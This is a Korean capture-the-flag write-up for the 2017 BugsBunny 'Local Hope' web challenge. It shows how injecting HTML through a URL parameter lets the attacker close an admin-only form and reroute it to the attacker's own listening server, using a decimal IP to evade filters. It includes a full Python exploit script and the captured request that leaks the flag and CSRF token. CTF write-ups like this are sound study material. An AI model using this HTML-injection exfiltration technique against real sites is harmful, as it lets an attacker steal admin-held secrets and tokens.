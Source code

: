 # 2017 BugsBunny - [WEB] Local Hope

## Key words

- CSRF (intended vulnerability)
- Content-Security-Policy (CSP)
- decimal IP dot string to decial IP string

## Solution

페이지에 접속하면 회원 가입 페이지가 있고 회원 가입 이후 `home.php`와 `contact.php`가 존재합니다.

`home.php` 외관상 딱히 흥미로운 점은 없었고, 소스보기를 하면 다음과 같은 부분이 존재 합니다.

```html
        <form action="home.php" method="GET">
          <input type="hidden" id="msg" name="msg">
        </form>
```

`home.php`에 `msg` 파라미터를 입력받고 해당 값을 출력해줍니다.

단순히 `xss` 코드를 넣어 봣는데 에러가 발생하여 헤더쪽을 확인해보니 `CSP`가 걸려 있습니다.

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
- https://content-security-policy.com/

결론적으로 `home.php`에 무언가 심어서 공격하기는 어려워 보입니다.

`contact.php`로 가보면 `admin`에게 리포트를 받을 `url`을 전송 하는 기능이 있습니다. 그런데 아무 url을 입력하면 `its not our website url!!`이라는 메시지가 뜨면서 동작을 하지 않습니다.

그리고 해당 url을 넣는다 해도 제가 서버에서 뭔가 받을 수 있는 형태가 아니기 때문에 무언가를 얻기가 어려워 보입니다.

그런데, CTF Dashboard의 문제 명세에 다음과 같은 힌트가 존재합니다.

```
Hint
index.php.old
```

해당 위치에 접근하면 다음과 같은 파일을 제공합니다.

```html
<!--debug-on-admin-test-->
<form action="5126e218beb3a87366e9e429befc7f66.php" method="POST" id="formflag">
           {$_GET['msg']}
          <label for="flag">Send some secret to my file :p!</label><br>
          <input type="hidden" id="flag" name="this_is_your_flag_here_get_it"><br>
          <input type="hidden" name="csrf_token" value="{$csrf_token}" />
</form>
<!--Hide in home.php just for admin :p-->
```

admin만 접근 가능한 폼이고 이 곳에 플래그가 존재하는 것 같습니다.

`contact.php`에서 제가 제공하는 `url`을 `home.php`로 하게 되면 admin 권한으로 동작하기 때문에 이 폼이 실행 될 수 있습니다.

또한 `home.php`에서 넣었던 `msg` 파라미터가 내부에 존재 하기 때문에 `</form>`를 이용하여 강제로 폼을 닫고 새로운 폼을 만들어서 `action`을 통해 제가 대기하고 있는 서버로 내용을 전달하면 될것 같습니다.

한 가지 주의할점은 여러가지 필터링이 되어 있어 IP주소나 URL주소를 넣기가 까다롭게 되어 있습니다. 따라서, IP 주소를 Decial 형태로 변환하여 전송합니다.

전체적인 흐름은 다음과 같습니다.

- `contact.php`의 url 파라미터에 http://34.253.165.46/LocalHope/home.php?msg=</form><form action='htto://my_listen_server_decial_ip:port'> 를 넣어서 `post` 요청을 전달
- 그러면 contact.php 에서 내부적으로 timeout 기반으로 유저가 넣은 URL에 접근하는데 이는 admin 세션으로 접근
- 요청한 URL은 `http://34.253.165.46/LocalHope/home.php` 이기 때문에 이 페이지를 admin 세션으로 접근하여 히든폼을 내부적으로 사용
- 요청한 `msg` 값에 의해 히든폼은 다음과 같이 동작함

```html
<!--debug-on-admin-test-->
<form action="5126e218beb3a87366e9e429befc7f66.php" method="POST" id="formflag"></form>

<form action='http://my_listen_server_decial_ip:port'>
          <label for="flag">Send some secret to my file :p!</label><br>
          <input type="hidden" id="flag" name="this_is_your_flag_here_get_it"><br>
          <input type="hidden" name="csrf_token" value="{$csrf_token}" />
</form>
<!--Hide in home.php just for admin :p-->
```

디폴트로 `GET` 방식으로 전달 되기 때문에 내 서버에서 특정 포트로 대기하고 있으면 해당 정보가 내 서버로 전달되게 됩니다.

## Solution Code

```python
import requests
from socket import *

# SOCK SETTING
s = socket(AF_INET, SOCK_STREAM)
s.bind(("0.0.0.0", 6354))
s.listen(5)

print "[*] listen socket 0.0.0.0:6354"

external_ip = "128.134.218.238"
dec_ip = int("".join("%02x"%int(x) for x in external_ip.split(".")), 16)

url = "http://34.253.165.46/LocalHope/contact.php"
target_url = "http://34.253.165.46/LocalHope/home.php?msg=</form><form action='http://%d:6354'>" % (dec_ip)

headers = {"Cookie": "PHPSESSID=9ovu5q4ud2cvl9rq9k4k2sqsm1" }
data = { "url":  target_url }


r = requests.post(url, headers=headers, data=data)
print "[*] Sent : {}".format(url)

c, addr = s.accept()
print c.recv(1024)
c.close()
```

## Result

```
tbkim@ubuntu:~/ctf/web/0006_2017_bugsbunny_LocalHope$ python sol_localhopes.py 
[*] listen socket 0.0.0.0:6354
[*] Sent : http://34.253.165.46/LocalHope/contact.php
GET /?this_is_your_flag_here_get_it=Bugs_Bunny%7BOh_You_FFirst_Find_Me_And_Bypass_My_CSP_%3A%28%28%21%21%7D&csrf_token=2bc0beca2bb56a8ea0784083b1eb0df1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://34.253.165.46/LocalHope/home.php?msg=%3C/form%3E%3Cform%20action=http://2156321518:6354%3E
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: 128.134.218.238:6354
```

Bugs_Bunny{Oh_You_FFirst_Find_Me_And_Bypass_My_CSP_:((!!}